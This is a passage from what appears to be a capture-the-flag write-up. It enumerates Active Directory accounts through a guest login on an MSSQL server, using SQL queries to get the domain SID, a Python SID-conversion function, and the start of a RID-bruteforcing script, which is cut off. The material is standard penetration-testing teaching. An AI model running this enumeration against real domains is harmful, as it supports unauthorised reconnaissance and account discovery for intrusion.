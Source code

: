 First, we retrieve the domain name:

```
SQL (SQLGuest  guest@msdb)> SELECT DEFAULT_DOMAIN();

---
REDELEGATE
```

Next, we query the domain’s base SID by retrieving the SID of a known group:

```
SQL (SQLGuest  guest@msdb)> SELECT SUSER_SID('REDELEGATE\Domain Admins');

---
b'010500000000000515000000a185deefb22433798d8e847a00020000'
```

The first 48 bytes of this hexadecimal value represent the domain SID. Using Python, we convert it to a readable string:

```python
#!/usr/bin/env python3

def hex_to_sid(hex_string):
    """Convert a hexadecimal SID string to a readable SID format."""
    sid_bytes = bytes.fromhex(hex_string)
    revision = sid_bytes[0]
    identifier_authority = int.from_bytes(sid_bytes[2:8], "big")
    sub_auths = [str(int.from_bytes(sid_bytes[i:i + 4], "little")) for i in range(8, len(sid_bytes), 4)]
    return f"S-{revision}-{identifier_authority}" + "".join(f"-{auth}" for auth in sub_auths)

def main():
    hex_string = "010500000000000515000000a185deefb22433798d8e847a00020000"
    print(hex_to_sid(hex_string))

if __name__ == "__main__":
    main()
```

Using the base SID, we enumerate domain objects by appending RIDs corresponding to users, groups, or machine accounts. For example:

```
SQL (SQLGuest  guest@msdb)> SELECT SUSER_SNAME(SID_BINARY(N'S-1-5-21-4024337825-2033394866-2055507597-1100'));
```

To automate this, we implement a Python script to perform RID bruteforcing within a range (e.g., 1100–1200). This script generates SIDs by appending RIDs to the base SID and queries the server for associated names.

```python
#!/usr/bin/env python3

import os
import subprocess
import signal
import sys

def handle_interrupt(signal, frame):
    """Handle Ctrl+C interruption gracefully."""
    print("\n[!] Interrupted. Exiting gracefully.")
    sys.exit(0)

signal.signal(signal.SIGINT, handle_interrupt)

def run_query(server, username, password, query_file, sid):
```